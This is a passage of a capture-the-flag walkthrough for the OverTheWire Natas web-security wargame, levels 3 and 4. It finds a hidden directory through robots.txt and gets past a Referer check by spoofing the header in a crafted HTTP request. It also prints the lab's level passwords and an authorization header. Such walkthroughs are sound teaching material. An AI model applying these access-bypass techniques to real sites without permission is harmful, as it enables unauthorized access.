 ```
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Level 3

```html
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
```
We know google specifically avoids robots.txt, let's have a look in there
```
User-agent: *
Disallow: /s3cr3t/
```
Opening /s3cr3t/ gives us another users.txt
```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Level 4

```
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```
Looks like the page is filtering based on the HTTP Referer header. We can fire up an intercepting proxy like `Burp Suite` to spoof these or manually send a http request with a tool like `curl`. I'm guessing burp will come in handy later so let's get that set up.

The default request looks like
```
GET / HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Cache-Control: max-age=0
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __cfduid=da1bde76a1d5e9a74ef93e15934e7856a1525237844
Connection: close
```
If we add 
```
Referer: http://natas5.natas.labs.overthewire.org/
```
We get
```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
```

